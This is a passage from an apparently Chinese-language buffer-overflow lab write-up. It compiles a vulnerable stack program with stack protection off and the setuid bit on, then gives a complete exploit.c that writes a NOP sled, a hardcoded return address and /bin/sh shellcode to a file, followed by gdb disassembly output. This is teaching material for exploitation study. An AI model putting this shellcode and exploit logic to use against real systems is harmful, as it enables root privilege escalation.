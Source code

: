 编译：

```
magc-VirtualBox% sudo -s
[sudo] password for magc: 
root@magc-VirtualBox:~/workspace# gcc -g -z execstack -fno-stack-protector -o stack stack.c 
root@magc-VirtualBox:~/workspace# chmod u+s stack
root@magc-VirtualBox:~/workspace# exit

```
### 攻击程序 exploit.c


```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[] = 
"\x31\xc0"    //xorl %eax,%eax
"\x50"        //pushl %eax
"\x68""//sh"  //pushl $0x68732f2f
"\x68""/bin"  //pushl $0x6e69622f
"\x89\xe3"    //movl %esp,%ebx
"\x50"        //pushl %eax
"\x53"        //pushl %ebx
"\x89\xe1"    //movl %esp,%ecx
"\x99"        //cdq
"\xb0\x0b"    //movb $0x0b,%al
"\xcd\x80"    //int $0x80
;
int main(int argc, char *argv[])
{
    char buffer[517];
    FILE *badfile;
    memset(&buffer, 0x90, 517);
    strcpy(buffer, "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xf4\xf4\xff\xbf");
    strcpy(buffer+100, shellcode);
    badfile = fopen("./badfile","w");
    fwrite(buffer,517,1,badfile);
    fclose(badfile);
    return 0;
}


```



找string



```
gdb-peda$ aslr
ASLR is OFF
gdb-peda$ disa
disable      disassemble  
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x080484dc <+0>:	push   ebp
   0x080484dd <+1>:	mov    ebp,esp
   0x080484df <+3>:	and    esp,0xfffffff0
   0x080484e2 <+6>:	sub    esp,0x220
   0x080484e8 <+12>:	mov    DWORD PTR [esp+0x4],0x80485e0
   0x080484f0 <+20>:	mov    DWORD PTR [esp],0x80485e2
   0x080484f7 <+27>:	call   0x80483b0 <fopen@plt>
```